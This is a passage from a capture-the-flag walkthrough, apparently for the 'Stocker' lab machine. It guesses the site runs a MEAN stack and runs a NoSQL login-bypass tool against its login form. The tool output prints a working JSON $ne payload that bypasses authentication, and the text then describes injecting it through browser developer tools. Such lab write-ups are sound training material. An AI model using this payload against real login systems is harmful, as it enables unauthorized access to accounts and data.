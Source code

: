 Looking at the disclosed component we can "assume" or better we can try to make some hypothesis on the used application stack in terms of front-end, back-end and database. All the components belongs to what is common defined as MEAN architecture (Mongo, Express.js, Angular and Node.js).

![mean-stack](assets/postimages/stocker/mean-stack.png)

So, let's try some injection on the login form. Our goal is interact with the internal db to exfiltrate some data or in the best case to login to the webapp! We can start with a simple tool nosl-login-bypass.


{% highlight shell %}

python /home/xabaras/hacking-tool/NoSQL-Attack-Suite/nosql-login-bypass.py -t http://dev.stocker.htb/login -u username -p password
[*] Checking for auth bypass GET request...
[-] Login is probably NOT vulnerable to GET request auth bypass...

[*] Checking for auth bypass POST request...
[-] Login is probably NOT vulnerable to POST request auth bypass...

[*] Checking for auth bypass POST JSON request...
[+] Login is probably VULNERABLE to POST JSON request auth bypass!
[!] PAYLOAD: {"username": {"$ne": "dummyusername123"}, "password": {"$ne": "dummypassword123"}}

{% endhighlight %}

The tool identify a possibility to bypass the authentication form using NoSQL Injection on username & password form field using a JSON payload. We can use multple way to exploit this vulnerability, but due the simplicity of the test we have to do, let's use the developers tools on our browser.

Basically we have to inject json payload on the *login* function editing the request. Pay attention to set the correct *"content type"* and payload.
